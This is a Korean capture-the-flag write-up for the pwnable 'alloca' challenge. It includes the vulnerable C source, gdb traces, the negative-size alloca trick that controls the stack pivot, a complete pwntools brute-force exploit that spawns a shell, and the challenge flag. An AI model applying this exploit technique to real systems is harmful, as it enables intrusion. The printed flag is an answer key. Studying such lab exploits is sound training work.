






# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**



# **Write-Up**

파일 정보를 확인하자.

```
alloca@pwnable:~$ checksec alloca
[*] '/home/alloca/alloca'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

소스는 다음과 같다.

```cpp
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void callme(){
    system("/bin/sh");
}

void clear_newlines(){
    int c;
    do{
            c = getchar();
    }while (c != '\n' && c != EOF);
}

int g_canary;
int check_canary(int canary){
    int result = canary ^ g_canary;
    int canary_after = canary;
    int canary_before = g_canary;
    printf("canary before using buffer : %d\n", canary_before);
    printf("canary after using buffer : %d\n\n", canary_after);
    if(result != 0){
            printf("what the ....??? how did you messed this buffer????\n");
    }
    else{
            printf("I told you so. its trivially easy to prevent BOF :)\n");
            printf("therefore as you can see, it is easy to make secure software\n");
    }
    return result;
}

int size;
char* buffer;
int main(){

    printf("- BOF(buffer overflow) is very easy to prevent. here is how to.\n\n");
    sleep(1);
    printf("   1. allocate the buffer size only as you need it\n");
    printf("   2. know your buffer size and limit the input length\n\n");

    printf("- simple right?. let me show you.\n\n");
    sleep(1);

    printf("- whats the maximum length of your buffer?(byte) : ");
    scanf("%d", &size);
    clear_newlines();

    printf("- give me your random canary number to prove there is no BOF : ");
    scanf("%d", &g_canary);
    clear_newlines();

    printf("- ok lets allocate a buffer of length %d\n\n", size);
    sleep(1);

    buffer = alloca( size + 4 );    // 4 is for canary

    printf("- now, lets put canary at the end of the buffer and get your data\n");
    printf("- don't worry! fgets() securely limits your input after %d bytes :)\n", size);
    printf("- if canary is not changed, we can prove there is no BOF :)\n");
    printf("$ ");

    memcpy(buffer+size, &g_canary, 4);      // canary will detect overflow.
    fgets(buffer, size, stdin);             // there is no way you can exploit this.

    printf("\n");
    printf("- now lets check canary to see if there was overflow\n\n");

    check_canary( *((int*)(buffer+size)) );
    return 0;
}
```

callme함수에 system("/bin/sh")이 있으므로, 최종 목적지는 0x080485AB이다.



이때, main함수에 return을 부분을 보면 ebp-0x4의 값을 ecx에 넣고, ecx-0x4를 esp에 넣은 후 retn하니 esp의 값이 callme함수가 되어야 한다.



alloca함수는 스택에 메모리를 할당하는 함수라고 정의된다.

> [alloca](https://docs.microsoft.com/ko-kr/cpp/c-runtime-library/reference/alloca?view=msvc-170)

이때, 스택의 공간을 확보하는 크기는 다음과 같다.

(입력 size : 0 ~ 13 => 0x20, 14 ~ 27 => 0x30)



size는 int형이다. 즉 -35를 넣었을 때, size + 34가 음수가 되는데 결과를 확인하면 스택의 크기가 줄어든다.



size를 계속 줄여나가다 보면, 입력한 random canary가 ebp - 0x4가 된다.

(size = -74, canary = 1111)



환경변수에 callme주소를 잔뜩 박아넣은 다음, esp가 환경변수를 가르키게 만들자. 다만 aslr이 걸려있으므로, exploit하기 위해서는 반복되어야 할 것 같다.

```sh
alloca@pwnable:~$ cat /proc/sys/kernel/randomize_va_space
2
```

환경변수의 위치는 0xffxxxxxx부터 랜덤하게 부여된다.

```sh
(gdb) x/5000x $esp
... 생략 ...
0xff849de0:     0x2f61636f      0x6f6c6c61      0x58006163      0x535f4744
0xff849df0:     0x49535345      0x495f4e4f      0x32313d44      0x37313239
0xff849e00:     0x45485300      0x2f3d4c4c      0x2f6e6962      0x68736162
0xff849e10:     0x52455400      0x74783d4d      0x006d7265      0x5f485353
0xff849e20:     0x45494c43      0x363d544e      0x35322e31      0x31322e31
0xff849e30:     0x39312e35      0x34342034      0x32203838      0x00323232
0xff849e40:     0x5f485353      0x3d595454      0x7665642f      0x7374702f
... 생략 ...
```

한번 0xFFD00000으로 된다는 가정하게 진행하자. 따라서 canary는 -3145728이다.

> [Hex to Dec](https://www.rapidtables.com/convert/number/hex-to-decimal.html)

size 값을 찾기 위해 음수 값을 넣어보면서 canary를 넣은 값이 ebp - 0x4에 위치하면 된다.

```
alloca@pwnable:~$ gdb -q ./alloca
Reading symbols from ./alloca...(no debugging symbols found)...done.
(gdb) disas main
... 생략 ...
   0x08048831 <+462>:   mov    -0x4(%ebp),%ecx
   0x08048834 <+465>:   leave
   0x08048835 <+466>:   lea    -0x4(%ecx),%esp
   0x08048838 <+469>:   ret
End of assembler dump.
(gdb) b *main+462
Breakpoint 1 at 0x8048831
(gdb) r
... 생략 ...
- whats the maximum length of your buffer?(byte) : -74
- give me your random canary number to prove there is no BOF : 1111
... 생략 ...
(gdb) x/x $ebp - 4
0xffed3c54:     0x00000457
```

FLAG를 획득하자.

```python
alloca@pwnable:~$ mkdir -p /tmp/2honrr_alloca
alloca@pwnable:~$ cd /tmp/2honrr_alloca
alloca@pwnable:/tmp/2honrr_alloca$ vi exploit.py

from pwn import*
context.log_level = 'error'
shell   = p32(0x80485AB)
e       = {str(i): shell * 30000 for i in range(10)}
cnt     = 0
while True:
    cnt += 1
    p   = process("/home/alloca/alloca", env=e)
    p.sendline('-74')
    p.sendline('-3145728')
    p.recvuntil('what the f...??? how did you messed this buffer????\n')
    try:
        p.sendline('cat /home/alloca/flag')
        print(p.recvline())
    except EOFError:
        print("Try... {}".format(cnt))
        p.close()
        continue
    p.interactive()
    break
    
alloca@pwnable:/tmp/2honrr_alloca$ python exploit.py
```

# **FLAG**

**sorry... I stand corrected.. it is H4RD to make secure software**